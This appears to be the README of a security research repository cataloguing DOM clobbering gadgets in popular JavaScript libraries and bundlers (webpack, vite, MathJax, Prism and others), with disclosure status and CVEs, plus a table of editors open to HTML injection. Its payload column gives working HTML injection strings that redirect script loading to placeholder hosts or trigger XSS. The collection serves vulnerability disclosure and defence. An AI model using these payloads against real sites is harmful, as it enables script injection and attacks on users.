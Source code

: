 # DOM Clobbering Collection

This repository lists client-side libraries that are vulnerable to HTML injection or contain DOM Clobbering gadgets that can result in severe issues like XSS.

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | Status | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:------:|:---:|
| [AddToAny](./domc-gadgets/addtoany.md) | N/A | N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | N/A |
| [astro](./domc-gadgets/astro.md) | 45.7K | v4.5.9 | ```<form name="scripts">alert(1)</form><form name="scripts">alert(1)</form>``` | XSS | TheHulk | N/A | N/A |
| [doomcaptcha](./domc-gadgets/doomcaptcha.md) | 1K | latest | ```<img name="currentScript" label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | Mitre | N/A |
| [Google Client API](./domc-gadgets/google-client-api.md) | N/A | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>``` | XSS | TheHulk | Patched | N/A |
| [Google Closure](./domc-gadgets/google-closure-library.md) | 4.9K | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | Accepted | N/A |
| [inspire.js](./domc-gadgets/inspire.js.md) | 1.7k | v1.10 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [layui](./domc-gadgets/layui.md) | 29.5K | v2.9.16 | ```<img name="currentScript" src="https://xxx.xxx.xxx">``` | XSS | TheHulk | Reported | N/A |
| [MathJax](./domc-gadgets/mathjax2.md) | 10.1K | v2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Accepted | N/A |
| [MathJax](./domc-gadgets/mathjax3.md) | 10.1K | v3.2.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | Accepted | N/A |
| [Mavo](./domc-gadgets/mavo.md) | 2.8K | v0.3.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [pagefind](./domc-gadgets/pagefind.md) | 3.3K | v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | Accepted | CVE-2024-XXXXX |
| [plausible-analytics](./domc-gadgets/plausible-analytics.md) | 19.7K | v2.1.0 | ```<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">``` | CSRF | TheHulk | Reported | N/A |
| [plotly.js](./domc-gadgets/plotly.js.md) | 16.9K | v2.35.2 | ```<a id="PLOTLYENV"></a><a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>``` | Open Redirection | TheHulk | N/A | N/A |
| [polyfills](./domc-gadgets/polyfills.md) | 1.1K | v2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Reported | N/A |
| [Prism](./domc-gadgets/prism.md) | 12.2K | v1.29.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [rollup](./domc-gadgets/rollup.md) | 25.2K | v4.21.3 | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Fixed | 2024-CVE-XXXXX |
| [rspack](./domc-gadgets/rspack.md) | 8.6K | v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | CVE-2024-XXXXX |
| [squirt](./domc-gadgets/squirt.md) | 1.2K | v0.0.1 | ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">``` | XSS | TheHulk | Reported | N/A |
| [Stage.js](./domc-gadgets/stage.js.md) | 2.4K | v1-alpha | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [steal](./domc-gadgets/steal.md) | 1.4K | v2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>``` | XSS | TheHulk | Mitre | N/A |
| [tsup](./domc-gadgets/tsup.md) | 8.9K | N/A | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Reported | N/A |
| [UMeditor](./domc-gadgets/umeditor.md) | 1.4K | v1.2.2 | ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>``` | XSS | TheHulk | Reported | N/A |
| [vite](./domc-gadgets/vite.md) | 67.2K | v5.4.5 | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |
| [Webpack](./domc-gadgets/webpack.md) | 64.4K | v5.93.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |

## HTML Injection Vulnerabilities

The following libraries accept user input and output content as `type/html` with certain named attributes (e.g., `id` or `name`) preserved at different levels of capability. Using these libraries may expose web applications to HTML injection risks. Libraries may directly insert user input into the DOM, or the web application may retrieve the user input from the library and then add it to the DOM.

| Library | Stars | Version | Input | Sanitizer | Capability | Status | CVE |
|:-------:|:-----:|:-------:|-------|:---------:|-------------------------|:------:|:---:|
| [editor.md](./html-injection/editor.md.md) | 13.8K | v1.5.0 | Type | N/A | Any named property | N/A | N/A |
| [Froala](./html-injection/froala.md) | 5.3K | v4.2.2 | Copy&Paste | DOMPurify | Any `name` attributes | N/A | N/A |
| [mermaid](./html-injection/mermaid.md) | 70.6K | v0.1.4 | Input | DOMPurify | Any named property without collision | N/A | N/A |
| [RichTextEditor](./html-injection/richtexteditor.md) | N/A | Latest | Copy&Paste | N/A | Any named property | N/A | N/A |
| [simplemde](./html-injection/simplemde.md) | 9.9K | v1.11.2 | Type | N/A | Any named property | N/A | N/A |
| [SunEditor](./html-injection/sun-editor.md) | 1.7K | v2.47.0 | Copy&Paste | N/A | `a` tag with `id` | N/A | N/A |
| [TinyMCE-v5/6/7](./html-injection/tinymce.md) | 14.9K | v7.3.0 | Copy&Paste | DOMPurify | Any named property without collision | N/A | N/A |
| [TinyMCE-v4](./html-injection/tinymce4.md) | 14.9K | v4.9.11 | Copy&Paste | N/A | Any named property | N/A | N/A |
| [tui.editor](./html-injection/tui-editor.md) | 17.1K | v3.2.2 | Type | DOMPurify | Any named property without collision  | N/A | N/A |
